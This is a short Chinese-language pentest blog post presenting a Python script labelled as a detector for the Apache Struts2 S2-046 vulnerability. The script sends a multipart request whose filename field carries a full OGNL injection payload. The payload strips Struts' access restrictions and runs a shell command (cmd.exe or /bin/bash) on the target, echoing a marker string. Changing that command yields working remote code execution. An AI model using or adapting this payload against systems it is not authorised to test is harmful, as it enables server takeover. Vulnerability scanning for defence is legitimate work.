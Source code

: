 +++
date = "2017-04-16T17:44:01+08:00"
description = ""
draft = false
tags = ["代码执行"]
title = "Struts2 046"
topics = ["Pentest"]

+++

### Struts2 046
> 前段时间写的struts2 046检测脚本，代码如下：
> ```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# code by reber

import sys
import pycurl
import StringIO


def initCurl():
    c = pycurl.Curl()
    c.setopt(pycurl.FOLLOWLOCATION, 1) #允许跟踪来源
    c.setopt(pycurl.MAXREDIRS, 5)
    # c.setopt(pycurl.PROXY,'http://127.0.0.1:1080')
    return c

def check(curl, url):
    head = [
        'Connection: close',
        'Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150'
    ]

    data = '''-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo dd996b71024fa97cd015f06a7f24ed30').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\0b"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--\r\n\r\n'''

    buf = StringIO.StringIO()
    curl.setopt(pycurl.WRITEFUNCTION, buf.write)
    curl.setopt(pycurl.POSTFIELDS,  data)
    curl.setopt(pycurl.URL, url)
    # curl.setopt(pycurl.TIMEOUT, 10)
    curl.setopt(pycurl.HTTPHEADER,  head)
    curl.setopt(pycurl.SSL_VERIFYPEER, 0)
    curl.setopt(pycurl.SSL_VERIFYHOST, 0)
    curl.perform()
    the_page = buf.getvalue()
    buf.close()

    if 'dd996b71024fa97cd015f06a7f24ed30' in the_page:
        print "%s has st2-046 vulnerable." % url

def run(url):
    c = initCurl()
    check(c, url)
    sys.exit(0)

if __name__ == '__main__':
    if len(sys.argv) == 2:
        url = sys.argv[1]
        run(url)
    else:
        print ("usage: %s http://www.baidu.com/vuln.action whoami" % sys.argv[0])
        sys.exit(-1)
```